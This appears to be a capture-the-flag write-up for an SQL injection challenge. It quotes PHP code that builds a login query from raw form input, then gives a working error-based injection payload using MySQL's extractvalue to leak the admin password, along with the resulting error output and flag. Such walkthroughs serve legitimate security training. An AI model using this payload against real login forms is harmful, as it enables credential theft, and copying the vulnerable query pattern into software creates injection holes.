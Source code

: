# [SQL Injection Level 4](http://s1063.vdi.mipt.ru:8000/challenges#SQL%20Injection%20Level%204)
### [Login form](http://chall1.ctf.pwne.xyz:5555/level4/)

# Solution
1. Analyze the code
```php
$query = "SELECT * FROM users WHERE username='{$_POST['username']}' AND password='{$_POST['password']}'";

if (!$result)
{
	die('MySQL query error: '. mysqli_error($conn));
}
```
2. If there is a syntax error in our injection, we get error message with some explanation.
3. For example, we can use `extractvalue` function.
login: `' and (select extractvalue(0,concat('$',(select password from users where username='admin'))));#`
Result: `MySQL query error: Unknown XPATH variable at: '$c6ef49ff6442e43cc883e25c440dfcb'`

**Answer**: `flag{c6ef49ff6442e43cc883e25c440dfcb}`